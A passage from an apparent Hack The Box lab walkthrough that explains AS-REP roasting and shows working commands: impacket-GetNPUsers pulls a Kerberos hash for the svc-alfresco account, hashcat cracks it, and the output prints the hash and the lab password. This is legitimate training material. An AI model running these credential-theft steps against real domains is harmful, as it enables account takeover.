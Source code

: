 Microsoft Exchange Security Group
![](Pasted%20image%2020240812225212.png)

The Service Account we saw in the above list is using [svc-alfresco](https://docs.alfresco.com/process-services/latest/config/authenticate/#kerberos-and-active-directory) is a service account which has the Kerberos Pre-Authentication disabled. We can use Impacket'GetNPUsers to extract the Kerberos Ticket for this service users.

> [!tip] Why we are able to request the ticket for the user svc-alfresco? Little Detail about AS-REP Roasting.
>  
> The Service user has Kerberos Pre-Authentication Disabled. Which means in some cases, there will be users who don’t have the Kerberos Pre-Authentication Attribute Enabled. This means that anyone can send a KRB_AS_REQ request to the DC on behalf of any of those users and receive the KRB_AS_REP from the KDC. In a real-world scenario, not all applications will support Kerberos pre-authentication, making it common to find users in the DC for whom Kerberos Pre-Authentication is disabled. This allows attackers to request TGTs for these users and crack their session key offline using tools like John or hashcat. This is known as AS-REPRoasting.

Now Trying Get-NPUsers to extract the ticket for the svc-alfresco user account.

```
Getting the Ticket

$ impacket-GetNPUsers htb.local/svc-alfresco -dc-ip 10.10.10.161 -no-pass
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB.LOCAL:95f126a5e225b3c565eb76ce698e7a2c$3f66335e0324e3bc866da21863a9179876e4ec511e5c5616b966f22dd053352f46630da75f3b297557307884ac7842ee333b8f7391c5a4b77876e03dd6de575ab18307e189f7498d4c89981cdd19b99e04108f45ba29d1321ea3c2229b0f28d22c42f3e4bb2c06d5c767a1de59262dddaa72fb3d43437f536abc865c4caa9329995f35bae330ba8ddf170563eeaf28de3fa4c23de06de1a9524c6fa409199032247f3782826ed24769d019e1572fd92aaeadc96c590df7027e606f915ca0a8564fbf10967f6eb2ec8df077b37a168021310f7277889e85b3475c5851081093b9aa14ed2d02cf

Copy the ticket into text file and run the hashcat 

$ hashcat -m 18200 -a 0 krgtgt.out /usr/share/wordlists/rockyou.txt 

$krb5asrep$23$svc-alfresco@HTB.LOCAL:95f126a5e225b3c565eb76ce698e7a2c$3f66335e0324e3bc866da21863a9179876e4ec511e5c5616b966f22dd053352f46630da75f3b297557307884ac7842ee333b8f7391c5a4b77876e03dd6de575ab18307e189f7498d4c89981cdd19b99e04108f45ba29d1321ea3c2229b0f28d22c42f3e4bb2c06d5c767a1de59262dddaa72fb3d43437f536abc865c4caa9329995f35bae330ba8ddf170563eeaf28de3fa4c23de06de1a9524c6fa409199032247f3782826ed24769d019e1572fd92aaeadc96c590df7027e606f915ca0a8564fbf10967f6eb2ec8df077b37a168021310f7277889e85b3475c5851081093b9aa14ed2d02cf:s3rvice

Look at the password s3rvice
```
